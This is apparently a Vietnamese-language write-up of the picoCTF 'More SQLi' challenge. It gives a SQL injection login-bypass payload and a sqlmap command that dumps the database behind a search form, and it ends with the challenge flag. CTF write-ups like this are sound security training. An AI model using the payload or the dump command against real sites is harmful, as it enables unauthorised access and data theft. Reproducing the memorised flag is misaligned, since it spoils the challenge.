



# More SQLi
200 Point

## Description:
>Can you find the flag on this website. Additional details will be available after launching your challenge instance.
> http://saturn.picoctf.net:63226/

## Hint:
> SQLiLite

## Solution:

Theo như đề bài gợi thì đây là SQLLite SQL injection

Mình sẽ sử dụng SQLLite bypass login với payload: -1' OR 3*2*1=6 AND 00047=00047 -- ở cả username và pass

Trong lúc login mình nhận được một form tìm kiếm như sau:

Thực hiện tìm kiếm `hi` và bắt request. Theo suy đoán của mình thì chỗ này sẽ là nơi mình tập trung tấn công sql injection.

Đến đây đưa vào sqlmap và chạy lệnh: sqlmap -r 2.txt --dump --threads=5 --risk=3 --level=5 --batch 
 
ta sẽ thu được flag

Flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
